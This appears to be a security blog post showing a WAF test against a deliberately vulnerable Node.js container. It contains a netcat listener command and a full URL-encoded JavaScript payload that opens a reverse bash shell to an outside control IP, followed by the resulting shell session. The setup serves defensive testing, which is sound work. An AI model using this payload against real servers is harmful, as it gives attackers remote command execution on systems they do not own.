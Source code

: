 ```yaml
---
layout: post
date:   2020-08-09 17:54:35 -0400
title:  "Web Server Compromise - Node.js Remote Command Execution"
categories: initialaccess
tags: waf
---
```

<p>
Remotely exploiting servers in DMZ's seems so unecessary today with all of the credential theft and client side exploitation, but it is still a critical link in the attack chain. Cloud initiatives are allowing administrators to start up servers all over the place, and most of the time they do not have the same protections in the cloud they typically would in the DMZ. This attack could also be applied for lateral movement if the vulnerable web application is only accessible internally.
</p>

<p>
As a user you can be on either side of the DUT (Device Under Testing) for this. We will be exploiting the web server by requesting a URL with the command execution in it. For this user case that command will ask the web server to connect to our control infrastructure.
</p>

<p>
This particular use case can be used to demonstrate lateral movement too. This host could be the initial system compromised from the Internet and then pivot to another host, or it could be leveraged to pivot on an internal network.
</p>


<h3>Step 1 - Create a Sub-domain for the Application</h3>

<p>
This is important because we will proxy the traffic through the WAF.
</p>

<img src="/images/node-dns.png">

<h3>Step 2 - Deploy the Node.js Container</h3>

<p>
Run the container somewhere you will be able to access the server by it's DNS name. This particular one is running in GCP.
</p>

<p>
Run the pre-built container for this with the following command, changing the -h to the domain you setup in Step 1.
</p>

<code>docker run -h node.ninjastars.cf -p 8080:8080 -d freshdemo/node-simple-rce</code>


<h3>Step 2 - Setup Control Channel</h3>

<p>
From a terminal behind your device under testing run netcat as a listener. Make sure the port you specify will be accessible from the webserver. This is running on a separate host in Azure and has an IP of 13.88.250.188.
</p>

<code>
  nc -l 80
</code>
<br>


<h3>Step 3 - Exploit the Server</h3>

<p>
The following demonstrates how to connect to the vulnerable server (node.ninjastars.cf:8080), and run the remote command execution that communicates with the control server in the previous step (13.88.250.188:80).
</p>

<code>
  http://node.ninjastars.cf:8080/q=var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"13.88.250.188",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
</code>
<br>
<br>

<p>
Now back at your control server you should be able to execute commands on the host.
</p>

<pre>
root@DockerHost:~# nc -l 80
pwd
/usr/src/app
ls
app.js
node_modules
package-lock.json
package.json
</pre>


<h3>Step 4 - View the Results</h3>


<p>
The WAF was able to identify and prevent this exploit.
</p>
<br>
<img src="/images/node-waf.png">


